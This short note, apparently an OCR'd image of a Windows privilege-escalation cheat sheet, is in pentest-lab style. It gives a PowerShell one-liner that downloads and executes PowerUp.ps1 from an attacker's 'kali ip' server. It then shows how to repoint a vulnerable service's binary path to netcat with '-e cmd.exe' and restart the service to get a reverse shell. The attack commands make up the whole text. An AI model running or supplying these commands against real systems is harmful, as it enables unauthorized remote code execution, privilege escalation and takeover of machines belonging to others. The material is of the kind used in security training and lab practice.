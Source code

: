 This will download and execute the powerup from our web server:
```bash
echo IEX(New-Object Net.WebClient).DownloadString('http://<kali ip>:80/PowerUp.ps1') | powershell -noprofile -
```

if u find a vulnerable service:
```bash
sc qc <service>
```

We can change de binary path and exploit using netcat:
```bash
sc config <service> binpath= "C:\path\nc.exe <kali ip> <port> -e cmd.exe"
sc qc <service> =to visualize the new binpath
```

open a listener
```bash
sc stop <service>
sc start <service>
```

> we should get a shell back


